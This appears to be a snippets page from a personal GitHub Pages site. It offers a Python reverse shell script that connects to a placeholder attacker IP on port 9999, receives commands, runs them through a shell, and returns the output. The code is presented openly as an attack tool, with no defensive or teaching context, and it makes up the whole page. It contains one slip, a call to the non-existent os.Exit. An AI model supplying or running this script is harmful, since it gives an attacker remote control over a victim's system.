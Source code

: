 ### Snippets

* [Home page](https://assassinukg.github.io/ac1d)
* [Snippets](https://assassinukg.github.io/ac1d/snippets)

# Python Reverse shell example 1
```
import socket
import os
import subprocess

s = socket.socket()
host = 'ENTER IP HERE'
port = 9999

s.connect((host, port))

while True:
    data = s.recv(1024)
    if data[:4].decode("utf-8") == "quit" or data[:3].decode("utf") == "exit":
        os.Exit(-1)
    if data[:2].decode("utf-8") == 'cd':
        os.chdir(data[3:].decode("utf-8"))

    # if len(data) > 0:
    cmd = subprocess.Popen(data[:].decode("utf-8"),shell=True, stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE)
    output_byte = cmd.stdout.read() + cmd.stderr.read()
    output_str = str(output_byte,"utf-8")
    currentWD = os.getcwd() + "> "
    s.send(str.encode(output_str + currentWD))

    print(output_str)
```

